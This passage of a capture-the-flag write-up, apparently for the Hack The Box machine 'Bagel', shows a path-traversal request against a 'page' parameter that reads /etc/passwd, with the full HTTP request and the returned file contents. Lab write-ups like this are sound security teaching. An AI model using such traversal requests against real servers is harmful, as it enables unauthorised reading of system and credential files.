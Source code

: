 The home page redirected me to 'http://bagel.htb:8000/?page=index.html'. The page parameter hinted at LFI. I tried to read '/etc/passwd'.

```http
GET /?page=../../../../etc/passwd HTTP/1.1
Host: bagel.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

It worked.

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.9
Date: Sat, 11 Mar 2023 21:08:01 GMT
Content-Disposition: inline; filename=passwd
Content-Type: application/octet-stream
Content-Length: 1823
Last-Modified: Wed, 25 Jan 2023 12:44:39 GMT
Cache-Control: no-cache
ETag: "1674650679.4629574-1823-759960046"
Date: Sat, 11 Mar 2023 21:08:01 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```
